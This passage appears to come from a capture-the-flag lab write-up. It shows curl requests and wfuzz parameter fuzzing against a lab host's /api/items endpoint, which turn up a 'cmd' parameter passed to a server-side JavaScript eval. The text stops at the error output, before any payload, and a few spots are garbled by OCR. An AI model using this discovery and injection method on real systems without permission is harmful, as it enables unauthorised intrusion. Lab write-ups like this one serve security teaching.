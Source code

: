   ```
              item.style.display = 'none';
            }
          }
        });
      });
    });
  })();
  ```
  
- Perfect! We have new endpoint `/api/items` so go and visit it so you can get the list of items.

  ```
  {"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
  ```
  
- When I tried to do a POST request I got this message:

  ```
  curl -X POST http://10.10.48.183/api/items
  {"message":"there_is_a_glitch_in_the_matrix"} 
  ```

- This means that there's actually another endpoint/parameter so let's fuzz it.

  ```
  wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 http://10.10.48.183/api/items\?FUZZ\=test

  ********************************************************
  * Wfuzz 3.1.0 - The Web Fuzzer                         *
  ********************************************************
  
  Target: http://10.10.48.183/api/items?FUZZ=test
  Total requests: 3132
  
  =====================================================================
  ID           Response   Lines    Word       Chars       Payload                                             
  =====================================================================
  
  000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               
  
  Total time: 16.15963
  Processed Requests: 3132
  Filtered Requests: 3131
  Requests/sec.: 193.8162
  ```

- Nice, it found `cmd` which is ideal. Let's repeat the curl request with new paramater.

  ```
  curl -X POST http://10.10.48.183/api/items\?cmd\=test

  <!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="utf-8">
  <title>Error</title>
  </head>
  <body>
  <pre>ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval spatch 5:5)<br> [SNIP!]at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
  </body>
  </html>
  ```
